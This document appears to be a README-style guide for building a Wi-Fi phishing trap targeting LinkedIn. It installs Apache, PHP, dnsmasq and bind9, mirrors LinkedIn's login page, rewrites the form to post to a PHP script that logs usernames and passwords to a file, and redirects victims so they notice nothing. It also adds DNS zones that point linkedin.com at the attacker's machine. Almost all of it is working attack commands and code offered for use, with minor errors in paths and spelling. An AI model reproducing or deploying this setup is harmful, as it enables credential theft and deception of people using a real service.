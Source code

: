 # Configuration Steps
## 1. Install required softwares
```
#sudo apt install apache2
#sudo apt install bind9
#sudo apt install php
```

## 2. Configure dnsmasq to share the network interface
```
#sudo nano /etc/dnsmasq.conf
```
add "bind-interfaces" in front the interface you set
```
bind-interfaces
interface=wlan0
dhcp-range=192.168.2.2,192.168.2.20,255.255.255.0,24h
```
after this step, bind9 service able to listen the IP for DNS server

## 3. Establish Phishing Website
a. Download web
You may download any website directly and modify it instead of write codes by yourself.
As an example:
```
#wget -mk https://www.linkedin.com
```
b. Move web to right path
Now the html file have been download to local. Move the file to apache2 server path
```
sudo mv Desktop/www.linkedin.com/index.html /var/www/html/
```
To hijack userdata, we may modify the action when user click submit or login button.
You will need to find where's the action in html file.
c. Modify action of submit action
```
#sudo nano /var/www/html/index.html
```
As an example, LinkedIn page using an form whose class in "sign-in-form", modify the action to "get.php". (We will create the php file later)
Also, you need notice the name or if for the entry box. For LinkedIn, the name are "session_key" and "session_password".
d. create php file
The name should the same as you modified in index.html, here, as the example, it will be get.php
```
#sudo nano /var/www/html/get.php
```
Add below codes to the file. It will record the username and password user inputed in a local file.
```
<?php
$username = $_POST['session_key'];
$password = $_POST['session_password'];
$TEXT = 'Username:'.$username." Password:".$password."\n";
$fo = fopen("home/pi/Desktop/password.text","a+") or die("something wrong");
fwrite($fo,$TEXT);
fclose($fo);
?>
```
At the end of the php, you may redirect the post request to the right url, so user can finish his login action and won't notice anything wrong.
In default, the php file will not have access to write in files, so we need do this step to authorize it.
```
#sudo chown -R www-data/home/pi/Desktop
```
## 4. DNS Configuration
a. set configuration path
```
sudo nano /etc/bind/named.conf.options
```
Add below statement in "options" block after "directory" pahth.
```
Dump-file "var/cache/bind/dump.db";
```
Configure the path of action file when certain Domain or IP visited.
```
#sudo nano /etc/bind/named.conf
```
```
zone "linkedin.com"{
      type master;
      file "/etc/bind/linkedin.com.db"
};
zone "2.168.192.in-addr.arpa"{
      type master;
      file "etc/bind/192.168.2.db";
};
```
Configure the forward lookup file
```
#sudo nano /etc/bind/linkedin.com.db
```
```
$TTL 600
#ORIGIN linkedin.com.
@ IN  SOA ns.linkedin.com. admin.linkedin.com.(
      2008111001
      8H
      2H
      4W
      1D)
@ IN  NS  ns.linkedin.com.
@ IN  MX  10 mail.linkedin.com.

www IN  A 192.168.2.1
mail IN  A 192.168.2.1
ns  IN  A 192.168.2.1
*.linkedin.com  IN  A 192.168.2.1
```
configure the reverse lookup file
```
#sudo nano /etc/bind/192.168.2.db
```
```
$TTL 3D
@ IN  SOA ns.likedin.com.  admin.linkedin.com.(
      2008111001
      8H
      2H
      4W
      1D)
@ IN  NS  ns.linkedin.com.
101 IN  PTR www.linkedin.com.
102 IN  PTR mail.linkedin.com.
10  IN  PTR ns.linkedin.com.
```
```
#sudo rndc flush
#sudo service bind9 restart
```
